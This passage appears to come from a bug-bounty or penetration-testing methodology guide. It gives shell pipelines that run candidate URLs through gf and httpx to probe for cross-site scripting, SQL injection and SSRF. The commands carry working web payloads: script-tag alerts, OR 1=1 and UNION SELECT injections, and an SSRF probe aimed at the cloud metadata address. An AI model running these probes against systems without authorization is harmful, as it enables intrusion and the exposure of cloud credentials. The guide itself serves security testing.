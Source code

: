 ### Phase 3: Validation
```bash
# 1. Test XSS payloads
cat xss_candidates.txt | xargs -I {} echo "{}<script>alert(1)</script>" | httpx -mr "alert(1)"

# 2. Test SQLi payloads
cat sqli_candidates.txt | xargs -I {} echo "{}' OR 1=1--" | httpx -mr "SQL syntax"

# 3. Test SSRF payloads
cat ssrf_candidates.txt | xargs -I {} echo "{}http://169.254.169.254" | httpx -mr "metadata"
```

---

## 🔍 Vulnerability Types

### 1. Cross-Site Scripting (XSS)

#### Reflected XSS
```bash
# Find reflected parameters
cat urls.txt | gf xss | grep -E "(\?|&)[a-zA-Z0-9_-]*="

# Test payloads
echo "https://target.com/search?q=" | gf xss | xargs -I {} echo "{}<script>alert('XSS')</script>"
```

#### Stored XSS
```bash
# Find input fields
cat urls.txt | gf xss | grep -E "(comment|message|feedback|post)"
```

#### DOM XSS
```bash
# Find JavaScript sinks
cat urls.txt | gf xss | grep -E "(#|javascript:|data:|vbscript:)"
```

### 2. SQL Injection

#### Error-based SQLi
```bash
# Find SQL injection points
cat urls.txt | gf sqli | xargs -I {} echo "{}'" | httpx -mr "SQL syntax|mysql_fetch|ORA-"
```

#### Union-based SQLi
```bash
# Test union injection
cat urls.txt | gf sqli | xargs -I {} echo "{} UNION SELECT 1,2,3--" | httpx -mr "The used SELECT"
```
